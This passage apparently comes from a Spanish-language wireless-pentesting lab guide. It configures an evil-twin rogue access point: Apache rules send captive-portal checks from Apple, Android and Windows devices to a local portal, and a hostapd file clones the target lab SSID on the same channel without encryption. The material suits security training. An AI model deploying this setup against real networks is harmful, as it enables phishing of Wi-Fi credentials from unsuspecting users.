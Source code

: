 ```bash
sudo a2enmod rewrite
```

```bash
sudo a2enmod alias
```

```bash
<VirtualHost *:443>

  ServerAdmin webmaster@localhost
  DocumentRoot /var/www/html

  ErrorLog ${APACHE_LOG_DIR}/error.log
  CustomLog ${APACHE_LOG_DIR}/access.log combined

  # Apple
  RewriteEngine on
  RewriteCond %{HTTP_USER_AGENT} ^CaptiveNetworkSupport(.*)$ [NC]
  RewriteCond %{HTTP_HOST} !^192.168.87.1$
  RewriteRule ^(.*)$ https://192.168.87.1/portal/index.php [L,R=302]

  # Android
  RedirectMatch 302 /generate_204 https://192.168.87.1/portal/index.php

  # Windows 7 and 10
  RedirectMatch 302 /ncsi.txt https://192.168.87.1/portal/index.php
  RedirectMatch 302 /connecttest.txt https://192.168.87.1/portal/index.php

  # Catch-all rule to redirect other possible attempts
  RewriteCond %{REQUEST_URI} !^/portal/ [NC]
  RewriteRule ^(.*)$ https://192.168.87.1/portal/index.php [L]

  # Use existing snakeoil certificates
  SSLCertificateFile /etc/ssl/certs/ssl-cert-snakeoil.pem
  SSLCertificateKeyFile /etc/ssl/private/ssl-cert-snakeoil.key
</VirtualHost>
```

```bash
sudo a2enmod ssl
```

```bash
sudo systemctl restart apache2
```

### Configuración y ejecución del punto de acceso no autorizado

Crearemos un punto de acceso 802.11n con el mismo SSID y canal que el punto de acceso objetivo, pero sin cifrado

```bash
interface=wlan0
ssid=MegaCorp One Lab
channel=11

# 802.11n
hw_mode=g
ieee80211n=1

# Uncomment the following lines to use OWE instead of an open network
#wpa=2
#ieee80211w=2
#wpa_key_mgmt=OWE
#rsn_pairwise=CCMP
```